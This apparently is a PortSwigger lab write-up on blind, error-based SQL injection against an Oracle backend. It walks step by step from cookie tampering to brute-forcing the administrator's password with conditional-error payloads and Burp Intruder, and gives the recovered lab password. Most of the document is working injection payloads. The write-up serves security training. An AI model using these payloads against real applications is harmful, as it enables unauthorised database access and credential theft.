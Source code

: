## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/efc4ad9e-de11-4b84-87bd-cc445f4ef423)

## Solution :

Query made - 

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '<COOKIE-VALUE>'
```
#### trying to find the error messages--

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''
```

Add an extra `'` symbol.it was showing error.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/1d39da04-bb00-4b76-877d-805ef4d941ba)

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'''
```

Add 2 extra `'` symbol.We get a response that shows the SQL syntax is right

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/042cb032-0ea4-4984-9707-f9a6f1eb88ca)

#### Checking database with conditional errors  --

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''||(SELECT '')||'
```
Error. This is because the database is **ORACLE**.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/d0428fac-7368-49da-b2a6-2734ded02e40)
 
 for that we need to specify a table called **DUAL**
 
 ```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''||(SELECT ''FROM dual)||'
```
 
 ![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/5f52a53b-46a2-4ac8-83e9-2c0989533e43)

 No error we got respones.So it is orcal database.
 
#### Check Whether the users table is present  -

 ```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/9d7098fa-650d-4889-b8a0-06e9d038d7e5)

no erorr which means table exist.

*Keep in mind* > using WHERE ROWNUM = 1 is crucial. It ensures our query doesn't bring back more than one row, which could mess up our concatenation process.

#### Check Whether the username administrator is present in users table -

```Here table name is users```

We can exploit this error inducing queries to test if admin user is present or not.

>Points to rember here in qury it will always perform the `FROM` portion first if this is true then it will go to the `SELECT` portion.

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/8fd94e70-db25-4e08-b68c-f25af1e1139d)


We receive an error. means the condition is *TRUE* and username administrator is present in users table .

when we use `1=2`

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/0829dfc4-75e2-4075-afe2-375a8c7f96b4)

We receive no error. means the condition is *False* and username administrator is present in users table .

#### Determine the length of admin's password -

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND LENGTH(password)>25) ||'
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/503f1698-b7c9-417d-967c-0da900c2d30c)


```no error which which means the length of the password is less than 25```

```To find the length of the password send qury to  Intruder then and Add the password length part as payload and select attack type as SNIPER .Then go to  payload sleect payload type as numbers after that set from 1 to 25 and start the attack ```

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND LENGTH(password)>$1$) ||'
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/33a82c83-2746-4cc4-bc58-10f0efb7f4bf)

From line  20, we are not  getting  an error where condition is *(LENGTH > 20)*.

![Screenshot 2024-02-04 212405](https://github.com/ananthan05/Portswigger_labs/assets/140697378/4e5bb4c7-12a9-479b-8197-71eff7277f53)

Password length  is  **20** characters long.

#### Finding the  20 characters length password by Brute force -


```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND  SUBSTR(password,1,1)='a') ||'
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/f8c9435c-4342-4f0f-b277-589f73082569)

->a is not the first character of the password.

```To find the first character of the password send qury to  Intruder then and Add the string part as payload and select attack type as SNIPER .Then go to  payload sleect payload type as bruteforce set min and max =1  and start the attack ```

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND  SUBSTR(password,1,1)='$a$') ||'
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/c375b8ff-289f-4be5-8881-f91e9e221ece)

Find 500 response code to find the first charactor of the password.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/67c93c82-c394-4bd1-984b-aa1c7ebb60a8)

we will able get the first character of the password that is  ```q```

Similarly we will find all the characters.So the password is ```qii57qhxt8oox3ezd9ot```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/21e2f840-dc21-4b4f-b21b-cbd49f11d676)
